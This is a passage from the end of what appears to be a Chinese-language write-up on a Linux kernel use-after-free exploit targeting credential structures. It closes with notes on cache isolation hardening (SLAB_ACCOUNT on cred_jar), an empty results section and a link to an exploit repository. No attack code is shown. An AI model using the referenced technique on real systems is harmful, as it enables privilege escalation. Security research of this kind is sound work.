    - 现代内核通过为安全敏感缓存（如`cred_jar`）添加`SLAB_ACCOUNT`等标志进行隔离，这是针对SLUB/SLAB分配器的重要加固手段。
    - 理解特定版本内核的底层机制对精准分析漏洞利用条件和评估修复方案至关重要。

## 5. 测试结果

<div style="text-align: center; margin: 2rem 0;">
  
</div>

## 参考

https://github.com/BinRacer/pwn4kernel/tree/master/src/UAFwithCred
